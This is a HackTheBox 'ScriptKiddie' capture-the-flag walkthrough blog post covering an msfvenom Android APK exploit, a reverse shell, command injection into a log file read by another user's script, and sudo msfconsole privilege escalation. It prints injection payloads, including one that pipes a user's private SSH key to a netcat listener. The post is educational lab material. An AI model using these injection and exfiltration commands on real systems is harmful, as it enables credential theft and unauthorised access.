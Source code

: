 ```yaml
---
author:
  name: "papadope"
date: 2021-01-28
linktitle: ScriptKiddie
type:
- post
title: ScriptKiddie
weight: 10
series:
- HackTheBox
---
```


![Room Image](/scriptkiddie/room.png)

## Enumeration

From a really quick nmap we can realize that there are 2 open ports on the machine.

![nmap](/scriptkiddie/nmap.png)

---

## Web application

After getting that 5000 port I checked the code first. Nothing useful there. Tried to use windows or linux but the only thing that was working was android. I searched for msf exploits and I found that :

![msfvenom](/scriptkiddie/msfvenom.png)

I started the metasploit and I tried that exploit.

I created an apk file with the metasploit module and I upload the file picking the android in the drop down menu.

Started a netcat listener on the port I chose and I got in as Kid user.

![reverseshell](/scriptkiddie/gettingreverse.png)

---

## Quest for Happiness

After searching in the box on how to get root I saw another user named **pwn**

![pwnuser](/scriptkiddie/pwnuser.png)

That user inside his home directory has a script called **scanlosers.sh** that interacts with the app we saw in the 5000 port. When you try to inject something inside the searchsploit section, it does an automated nmap against your ip.

After injecting some values in the script by simply echoing some random values inside the hackers file in **/home/kid/logs/hackers** we can quickly realize that we can do some smart stuff with that. 🚀

---

## Becoming the pwn user

I actually thought a single way to get in as a user to be honest.

* **echo "1 2 & python3 -m http.server 8888" > hackers**

You can go now to your browser and put the box ip:port and download your key!

The way below is how a great hacker & a good friend of mine did it :

* **echo "1 2 & cat /home/pwn/.ssh/id_rsa|nc ip port" > hackers**

This will echo the id_rsa key of the pwn user directly to your nc listener.

Here I got helped by [Mentats](https://tryhackme.com/p/mentats). IMO he is going to be an excellent penetration tester 😁

## Privilege Escalation

After getting that id_rsa and ssh as pwn user you can instantly realize that you can run msfconsole as sudo.

![sudo](/scriptkiddie/sudo-l.png)

Really straightforward after that. Just execute :

**sudo /opt/metasploit-framework-6.0.9/msfconsole**

And type *id*!

![root](/scriptkiddie/root.png)

To be more familiar you can execute **/bin/bash** inside msfconsole to get a beautiful shell too.

Thank you very much for reading.